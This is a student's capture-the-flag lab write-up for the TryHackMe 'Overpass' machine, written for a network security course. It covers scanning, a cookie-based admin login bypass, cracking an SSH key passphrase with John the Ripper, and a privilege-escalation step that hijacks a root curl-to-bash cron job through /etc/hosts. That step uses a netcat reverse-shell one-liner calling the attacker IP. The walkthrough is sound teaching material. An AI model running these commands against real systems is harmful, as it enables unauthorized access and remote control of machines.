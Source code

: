 Ruben Valdez <br>
CSEC 5306 _ Computer Networks and Security <br>
Prof. Alsmadi <br>
Assignment: Lab 8 - Overpass <br>

---

# TryHackMe - Overpass

<br>

## Machines

Attacker IP:    `10.10.108.208`

Target IP:      `10.10.179.84`

<br>

## Q1. Hack the machine and get the flag in user.txt

Ran an Nmap scan to the target IP `10.10.25.161`.  Ports, Protocal, and Service for SSH (22) and HTTP (80) are open.

Command used `nmap -sV -vv 10.10.25.161`

![alt text](<Screenshot 2024-03-22 at 8.24.29 AM.png>)


Now that we know what open ports there are, we can further investigate the webpage for the IP address `10.10.25.161` to access the `Overpass - Security password manager` website.  

![alt text](<Screenshot 2024-03-22 at 8.28.02 AM.png>)


Using Firefox to view the source code of the webpage, we don't really see much useful information, but we can see a string of text that is commented to that could be read as sarcastic.  `

![alt text](<Screenshot 2024-03-21 at 9.26.32 PM.png>)



In an effort to find any pages that might be hidden, I utilized `Gobuster` to scan the for any pages that aren't viewable by the naked eye when first attempting to visit the website @ `10.10.25.161`.  The results of the page scan shows a few pages, but the one that really seeks my attention is the `/admin` page.   

Command used `gobuster dir -u http://10.10.25.161 -w /usr/share/wordlists/dirb/common.txt`

![alt text](<Screenshot 2024-03-22 at 8.32.31 AM.png>)

![alt text](<Screenshot 2024-03-22 at 8.33.19 AM.png>)


In analyzing the source code of the /admin page, we can assess that there's some code pertaining to setting a cooking named `SessionToken`

![alt text](<Screenshot 2024-03-21 at 4.00.17 PM.png>)


If we were to utilize the Firefox's web developer tools, we can attempt to hack the /admin logon page.   

On the browser tool bar, click the following `Tools > Browser Tools > Web Developer Tools`.  In the tools window, click the `Debugger` and locate the `Cookies.set("SessionToken",statusOrCookie)`.  After locating the `SessionToken`, click the Storage tab and on the side menu, click the Cookies drop down and choose the the webpage/site.  Click the `+` to add an item.  Double click the item that populates and change the name of it to `SessionToken`

![alt text](<Screenshot 2024-03-22 at 9.04.40 AM.png>)

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


Another option to successfully access to the /admin logon page instead of using the Storage tab, is using the Console tab.   Using the same code `Cookies.set(“SessionToken”,"statusOrCookie")` just modify the part of the code `statusOrCooking` to `Cookies.set(“SessionToken”,"")`.  Click enter and refresh the page.   This to will gain admin access to the page to view the SSH private key.   

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


***Note:  In any scenaria, whether directly adding the `SessionToken` using Storage or the Console, the end result is that the Cookie does infact automatics gets added to the Storage > Cookies tab.***


Attempting to follow the labs writeup instructions, there was an error of trying to locate ssh2john.py.  After some research attempting to locate john, I found that John and all the other programs associated to it were found in the `/root/Tools/Password Attacks/john` directory and NOT the easier way to navigate to John by clicking `Applications > Password Cracking > John the Ripper`.  Now that I have been able to locate the correct directory, i can now we can get the `rsakey` file into a formate readable by John.

***NOTE:  `John the Ripper` (JtR) is a great program able to crach hash algorithms.  `ssh2john` converts SSH private keys to a hash format that JtR can understand and crack.***

![alt text](<Screenshot 2024-03-22 at 9.59.09 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.00.46 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.01.02 AM.png>)


Now we can attempt to crack `rsajohn` using the following command `john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt rsajohn`.  The passphrase JtR was able to crack is `james13`.

![alt text](<Screenshot 2024-03-22 at 10.13.23 AM.png>)

<br>

***MY session expired and needed to restart the assignment.  My new targe IP is `10.10.134.36`***

Before attempting to SSH we need to change the permissions to the `rsakey` file;  `chmod 600 rsakey`.

Now that we cracked the hash using JtR and now have the `rsakey` passphrase, we can now SSH into the target box using the following command; `ssh -i rsakey james@10.10.134.36`.

![alt text](<Screenshot 2024-03-22 at 10.56.05 AM.png>)


After successfully using SSH to logon to James computer remotely, we can now view and access files and system to answer Question 1 by performing the following commands: 

- `ls` to view the files
- `cat user.txt` to view the file contents.
    - `thm{65c1aaf000506e56996822c6281e6bf7}` is contents of the file and also the the flag.

        ![alt text](<Screenshot 2024-03-22 at 10.59.02 AM.png>)


<br>


## Q2.  Escalate your privileges and get the flag in root.txt

***Stopped the lab and need to restart the machines.  New IPs were created***

```
Attacker IP:    10.10.108.208
Target IP:      10.10.179.84
```

<br>

Just out of curiousity, I ran the `ll` command to view any hidden files.  We can see in the output, there's a file  named `.overpass`.  To dig a bit deeper, I used the command `cat .overpass` to view the contents.   

Contents appears to be some type of encoding or hash; `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

![alt text](<Screenshot 2024-03-22 at 10.01.54 PM.png>)


In `Task 1` we listed the the contest available on the Desktop by performing the `ls` command.  We already view the `user.txt` to obtain the first flag.  Now let view the contents of the `todo.txt` file

![alt text](<Screenshot 2024-03-22 at 11.49.51 AM.png>)

The note indicates `automated build script` and usually cron jobs are useful in settup up automated jobs.  Before doing anything else, I changed to the `/etc` directory to view the folders/files.  

- I ran the command, `cat /etc/cronjob`.  In the file we can view update builds from the latest code are from `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.

    ![alt text](<Screenshot 2024-03-22 at 11.51.48 AM.png>)


- Since we looked at the cronjobs the noxt logical step in the process is to view the hosts.  Using the command `cat /etc/hosts` I was able to view the all the hosts there were connections to.  Here we were able to modify on the host `127.0.0.1` to use the attacker's IP `10.10.108.208`.  For learning and educational purposes I just `#` commented the line out and added the attacker IP. 

    ![alt text](<Screenshot 2024-03-22 at 10.06.06 PM.png>)

    ![alt text](<Screenshot 2024-03-22 at 10.25.51 PM.png>)



In a previous step, we identified `Update build from latest code * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.  Using this, I needed to create the following directory/file on the attacker machine, `downloads/src/buildscript.sh`.   Opening a new terminal tab, I created the following file directory and file.  In the same process I also added reverse shell script to complete a netcat connection w/in the file.  The script was obtained using `pentestmonkey.net`.

***Site:    `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`***

***Script:  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.108.208 1234 >/tmp/f`***

![alt text](<Screenshot 2024-03-22 at 10.45.25 PM.png>)
















